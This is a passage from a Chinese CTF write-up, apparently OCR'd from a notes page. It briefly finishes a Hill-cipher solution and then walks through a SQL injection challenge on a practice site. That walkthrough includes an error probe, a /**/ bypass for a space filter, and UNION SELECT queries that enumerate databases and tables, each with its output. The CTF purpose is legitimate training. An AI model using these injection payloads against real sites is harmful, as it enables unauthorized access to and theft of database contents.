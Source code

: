      1 0
    -2 1 
再将所给字母串分成9*2的矩阵，与前一个逆矩阵相乘，所得再将所的答案中的字母a~b换成相应的1~26再计算结果，且周期=26，最终计算结果应在1~26之间，再对应相应的字母，get flag。
*flag： simCTF{hillisxxxxxxxx}

# 7.25

## 0x00 简单的sql注入之2
[ http://ctf5.shiyanbar.com/web/index_2.php ]( http://ctf5.shiyanbar.com/web/index_2.php )

##### 0x00 判断是否有注入漏洞
    http://ctf5.shiyanbar.com/web/index_2.php?id=1'
回显:

    You have an error in your SQL syntax; 
	check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1
##### 0x01 判断是否过滤空格
    http://ctf5.shiyanbar.com/web/index_2.php?id=1'and'1'='1
回显显示过滤空格：

    ID: 1'and'1'='1
    name: baloteli
那么可以用/**/代替空格绕过。
##### 0x00 构造语句查询有哪些数据库：

    http://ctf5.shiyanbar.com/web/index_2.php?id=1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1

回显：	

    ID: 1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1
    name: baloteli
    
    ID: 1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1
    name: information_schema
    
    ID: 1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1
    name: test
    
    ID: 1'/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1
    name: web1

##### 0x01 查看有哪些数据表：

    http://ctf5.shiyanbar.com/web/index_2.php?id=1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
回显：

    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: baloteli
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: CHARACTER_SETS
    